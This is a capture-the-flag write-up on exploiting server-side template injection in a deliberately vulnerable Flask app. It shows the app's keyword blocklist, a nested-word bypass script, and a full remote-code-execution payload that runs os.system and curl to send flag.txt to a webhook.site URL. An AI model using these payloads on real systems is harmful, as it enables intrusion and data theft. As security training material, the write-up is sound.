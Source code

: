 ```yaml
---
title: "[AVCTF2021] Super Secure Trustable Implementation"
slug: avctf2021-ssti
author: [zhaoyun]
date: 2021-12-21
tags: [ctf, web]
---
```


> I've added a bunch of filters, so my app must be really secure now.
>
> Flag in `flag.txt`
>
> URL: http://35.240.143.82:4209/

The source, `main.py` is included hence we should take a look.

```python
import secrets
from flask import Flask, render_template_string, request

app = Flask(__name__)


@app.route("/")
def index():
    name = request.args.get("name", default="World")
    # Evil hacker cannot get past now!
    blocklist = ["{{", "}}", "__", "subprocess", "flag", "popen", "system", "os", "import", "read", "flag.txt"]
    for bad in blocklist:
        name = name.replace(bad, "")
    return render_template_string(f"<h1> Hello, {name}")
```

Since the server uses `render_template_string` it's vulnerable to `{{}}` template string attacks.

If we use `{{ 'Hello'+' '+'World' }}` for name, it would give us `Hello World` as the string inside is ran as code.

### Blocklist Bypass

However as we can see, there is an blocklist, and it includes `{{` and `}}`.

To bypass this filter we can simply insert blocklisted words inside of blocklisted words. For example

`{flag{}flag}` will not trigger when checking for `{{` and `}}`, but will have `flag` removed when checking for flag, and would result in `{{}}` as the end output.

Making use of this, we can construct our payloads with the help of a little script.

> I had troubles with reading the file so I decided to just send the file content via curl
>
> webhook.site is a easy to use site for sending data back

```python
bypass = ["{{", "}}", "__", "subprocess", "flag", "popen", "system", "os", "import", "read"]
bypass.reverse()
payload = ''
for toby in bypass:
    payload = payload.replace(toby, toby[0] + "read" + toby[1:])
print(payload)
name = payload
blocklist = ["{{", "}}", "__", "subprocess", "flag", "popen", "system", "os", "import", "read", "flag.txt"]
for bad in blocklist:
    name = name.replace(bad, "")
print(f"<h1> Hello, {name}")
```

### Bypassing certain unknown filters

If one simply use `__import__`, one will soon realise that it does not exist, this could have been done by deleting built-ins from the python run time.

We can restore the built-ins via `reload(__builtins__)`, however it is obviously, also deleted.

We need to find `__import__` somehow.

With some experimenting, we can find that

```python
>>> ().__class__.__bases__
(<type 'object'>,)
```

The tuple inherits directly from `object`, hence we can find the list of types (extends object) by sending the payload 

##### `{{().__class__.__bases__[0].__subclasses__()}}`

```
Hello, [<class 'type'>, <class 'async_generator'>, <class 'int'>, <class 'bytearray_iterator'>, <class 'bytearray'>, <class 'bytes_iterator'>, <class 'bytes'>... <class 'flask.blueprints.BlueprintSetupState'>]
```

Much of the output is useless, `_frozen_importlib_external.FileLoader` looks a bit suspicious though. (it is at position 118)

##### `{{().__class__.__bases__[0].__subclasses__()[118]}}`

```
Hello, <class '_frozen_importlib_external.FileLoader'>
```

Just verifying that the class is the `FileLoader`, now lets see what builtins this FileLoader has

##### `{{().__class__.__bases__[0].__subclasses__()[118].__init__.__globals__["__builtins__"]}}`

```
Hello, {'__name__': 'builtins' ... '__import__': <built-in function __import__>,  ...help, or help(object) for help about object.}
```

**Hooray!** We found `__import__`, now we just have to combine the payload into

```python
{{(().__class__.__bases__[0].__subclasses__()[118].__init__.__globals__["__builtins__"])["__im"+"port__"]("o"+"s").system("curl -X POST --data-binary @flflag.txtag.txt https://webhook.site/40a3fae4-f378-4100-837c-8f94953fbbc9")}}
```

`flag.txt` is manually bypassed since it contains `flag`

### Transforming the payload

```
{read{(()._read_class_read_._read_bases_read_[0]._read_subclasses_read_()[118]._read_init_read_._read_globals_read_["_read_builtins_read_"])["_read_im"+"port_read_"]("o"+"s").sreadystem("curl -X POST --data-binary @flfreadlag.txtag.txt https://webhook.site/40a3fae4-f378-4100-837c-8f94953fbbc9")}read}

<h1> Hello, {{(().__class__.__bases__[0].__subclasses__()[118].__init__.__globals__["__builtins__"])["__im"+"port__"]("o"+"s").system("curl -X POST --data-binary @flag.txt https://webhook.site/40a3fae4-f378-4100-837c-8f94953fbbc9")}}
```

The first line is our payload, and after running the same blocklist operations as the server, the resulting string looks ok.

### Sending the payload

`http://35.240.143.82:4209/?name={read{(()._read_class_read_._read_bases_read_[0]._read_subclasses_read_()[118]._read_init_read_._read_globals_read_["_read_builtins_read_"])["_read_im"+"port_read_"]("o"+"s").sreadystem("curl -X POST --data-binary @flfreadlag.txtag.txt https://webhook.site/40a3fae4-f378-4100-837c-8f94953fbbc9")}read}`

And after checking webhook.site

```
flag{server_side_rendering_is_fun_but_dangerous_sometimes}
```

Flag obtained
